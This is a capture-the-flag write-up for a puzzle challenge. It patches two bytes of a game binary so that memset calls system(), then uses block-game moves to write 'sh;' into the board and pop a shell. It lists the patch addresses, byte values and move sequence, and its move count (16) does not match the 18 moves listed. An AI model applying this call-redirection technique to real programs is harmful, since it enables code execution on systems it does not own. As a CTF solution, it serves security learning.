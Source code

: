 # 80s

For my solution, I create `sh;` in-memory using blocks, then jump to it by
modifying `memset()` to point to `system()` and adding an offset to the
argument.

## 80s Game Codes

This requires two bytes of changes with the "Game Genius".

The first one changes `call memset` to `call system`:

    0x08048622 (or 0x622 on disk) 0x30 -> 0x20

    Code: AZZAZT

The second one changes the memset argument from the start of the board to the
offset where our code starts (0x15 in):

    0x0804954c (or 0x154c) 0xA0 -> 0xB5

    Code: SLGOGI

## The game

Once those two changes are made, all you have to do is spell out "sh;" at the
offset of 0x15 bytes into the gameboard. Easy, right?

Here is the solution is in 16 moves:

- as
- qaas
- eddds
- qdddds
- ds
- ddddds
- qaas
- eaaaas
- as
- ddddds
- edddds
- aaaaas
- eas
- s
- s
- s
- s
- s

That'll create the following grid after 13 moves (numbering the pieces in hex):

     C      B
     C      BB
    CC      BA
    8 99    AA
    8899    A6
    877     66
      77D   64
      22D    4
     22 DD 344
      1155 33
      1155 3

The important part is:

           <64
      22D    4
     22 DD 344
      >

or

           <11
    0011100001
    0110110111
    00>

If you take those as bytes, left to right and top to bottom, you get:

    11001110 00010110 11011100

We have to reverse each byte, because of how it's encoded in-memory:

    01110011 01101000 00111011

And that converts to:

    73 68 3B -> 'sh;'

Once that's done, just play out the game by repeatedly playing `s` till it's
over, at which point a shell should pop!

Flag: CTF{game_genie_killed_the_nintendo_star}
